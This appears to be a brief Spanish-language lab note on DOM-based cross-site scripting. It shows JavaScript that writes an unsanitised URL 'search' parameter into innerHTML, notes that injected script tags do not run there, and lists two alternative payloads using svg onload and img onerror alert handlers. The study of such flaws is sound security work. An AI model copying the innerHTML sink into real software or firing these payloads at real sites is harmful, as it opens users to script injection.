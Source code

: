 ```javascript
function doSearchQuery(query) {
                                document.getElementById('searchMessage').innerHTML = query;
                            }
                            var query = (new URLSearchParams(window.location.search)).get('search');
                            if(query) {
                                doSearchQuery(query);
                            }
```

```html
<span id="searchMessage">PAYLOAD</span>
```

==innerHTML permite la insercción de etiquetas script pero no los ejecuta==

Alternativas : 

```html
<svg onload="alert('XSS')"></svg>
<img src=1 onerror=alert(1)>
```

